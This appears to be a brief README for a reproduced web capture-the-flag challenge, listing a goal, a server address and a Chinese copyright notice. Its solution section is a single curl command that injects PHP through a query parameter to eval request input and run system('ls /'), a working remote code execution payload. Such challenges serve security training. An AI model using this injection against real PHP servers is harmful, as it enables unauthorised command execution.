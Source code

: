 #### Goals
 * Try to find the flag

#### Server Address
 * http://web.sniperoj.com:10001/

#### Solution
```
curl "http://localhost/?str=${eval($_REQUEST[c])}&c=system('ls /');"
```

#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
